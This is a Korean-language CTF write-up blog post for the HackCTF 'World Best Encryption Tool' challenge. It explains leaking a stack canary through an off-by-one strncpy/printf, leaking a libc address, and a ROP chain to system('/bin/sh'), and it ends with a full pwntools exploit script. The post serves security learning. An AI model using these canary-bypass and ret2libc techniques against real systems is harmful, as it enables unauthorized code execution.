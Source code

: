 ```yaml
---
layout: post
title:  "HacCTF World Best Encryption Tool write-up"
date:   2020-03-16 19:45:55
image:  hackctf_encryption.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled.png)

이번 문제는 카나리가 추가로 설정되어있다.
<br><br><br>


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%201.png)

문자열을 입력하면, 해당 문자열이 암호화되어 출력된다. 그다음 다시 입력을 할 것인지 묻게 되는데 여기서 Yes를 입력하면 재입력이 가능하며 No를 누르면 다음과 같이 프로그램이 종료된다
<br><br><br>


**3) 코드 흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%202.png)

do - while 문이 보인다. 처음 src에 입력을 하고 해당 문자열을 0x31바이트만큼 xor 연산을 하게 된다. 그다음 dest에 0x39 사이즈 만큼 복사를 하고 해당 dest에 들어가 내용을 출력한다.

s1에 들어간 값이 Yes인지 No인지 strcmp() 를 이용하여 확인을 한다. Yes 입력시 다시 반복문을 실행하게 된다.
<br><br><br>




### 2. 접근방법

---

14라인의 scanf를 이용하여 BOF를 발생시킬수 있다. 하지만 현재 카나리가 걸려있다. 따라서 단순히 BOF를 일으키면 카나리 값이 변조되어 프로그램이 강제 종료가된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%203.png)

위와 같이 stack smashing detected 되었다면서 종료가 된다.
<br><br><br>
이 카나리값만 알게 된다면 rbp-0x8 위치에 카나리를 넣고 ROP를 진행하면 될것으로 보인다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%204.png)

scanf로 src에 처음에 입력을 받고, src에 있는 데이터를 dest로 최대 0x39 바이트 만큼 복사가 이루어진다. 노란 영역이 복사될수 있는 최대영역인데, 카나라의 하위 한바이트를 변조 가능하다.

카나리는 하위 한바이트가 널값이기 때문에 만약 src에 들어있는 데이터가 0x38까지라면 strncpy를 통해 0x38바이트만 복사된다. 따라서 printf이 호출되면 널값이 존재하는 카나리 직전까지만 출력이 된다.
<br><br>
따라서 src에 0x39 만큼 입력을하면, dest에 0x39사이즈 만큼 복사가 이루어지고, 카나리의 하위 한바이트를 변경가능하다. 이를 통해  printf가 진행되면 카나리의 값을 leak할 수 있다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%205.png)

0x38만큼 A를 입력하고 B를 하나 입력한 결과이다. 이렇게되면 printf되어 출력되는 데이터들을 받게 되는데 빨간동그라미가 한바이트 덮은 B이고 나머지가 카나리 값이다. 이를 이용하여 이제 ROP를 진행하면 된다. 여기서 카나리 값의 하위 1바이트를 0으로 만들어서 이용하면 끝이다.


<br><br><br>
- **시나리오**
    1. **libc 주소 leak하기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%206.png)

        처음에는 printf_got를 인자로 printf_plt를 호출하여 printf함수의 주소를 얻으려고 했지만, 이상하게 동작을 하지 않았다. 따라서 puts_got, Puts_plt를 이용하였는데도 이상하게 안돼서 scanf_got로 put_plt를 호출하니 이제서야됐다.

        !![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%207.png)
<br><br>
    2. **libc database로 libc버전 확인해서 오프셋 조지기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%208.png)

        이제 ROP를 조지면 끝이다.



<br><br><br>

### 3. 풀이

---

& 연산으로 카나리 하위 1바이트를 다시 0으로 만들고 진행하였다.

처음 src에 값을 넣은뒤 strncpy가 진행되므로 카나리의 하위 1바이트의 널값이 변경되면 안됀다.
<br><br>
이를 고려하여 작성한 최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3027)
#p=process("./World_best_encryption_tool")
e=ELF("./World_best_encryption_tool")
#gdb.attach(p)

p.recvuntil("Your text)\n")

payload="A"*0x38+"B"

p.sendline(payload)
p.recv(0x48)
canary=p.recv(8)
canary=u64(canary)

log.info("canary::")
log.info(hex(canary))
canary=canary&0xFFFFFFFFFFFFFF00
log.info(hex(canary))

pr=0x4008e3

p.recvuntil("(Yes/No)\n")
p.sendline("Yes")
p.recvuntil("Your text)\n")

payload2="A"*56
payload2+="\x00"
payload2+="B"*63
payload2+=p64(canary)
payload2+="C"*8
payload2+=p64(pr)
payload2+=p64(0x601048)
payload2+=p64(0x4005e0)
payload2+=p64(0x400727)
pause()
p.sendline(payload2)

p.recvuntil("(Yes/No)\n")
p.sendline("No")

tmp=p.recvline()
log.info(tmp)
scanf_addr=u64(tmp[0:6]+"\x00\x00")
log.info("scanf:"+hex(scanf_addr))

libc_base=scanf_addr-0x06b4d0
binsh=libc_base+0x18cd57
system_addr=libc_base+0x045390	
p.recvuntil("Your text)\n")

payload3="A"*56
payload3+="\x00"
payload3+="B"*63
payload3+=p64(canary)
payload3+="C"*8
payload3+=p64(pr)
payload3+=p64(binsh)
payload3+=p64(system_addr)
pause()
p.sendline(payload3)

p.recvuntil("(Yes/No)\n")
p.sendline("No")


p.interactive()
```



<br><br><br>
### 4. 몰랐던 개념

---

카나리의 하위 한바이트가 널값인지는 몰랐다.  아래 사이트에서 카나리 관련 개념을 좀 알아볼 필요가 있을 듯 싶다.

- [03.Canaries](https://www.lazenca.net/display/TEC/03.Canaries)

또한 이번 문제는 서버와 통신하는 타이밍 때문에 애좀 썻다.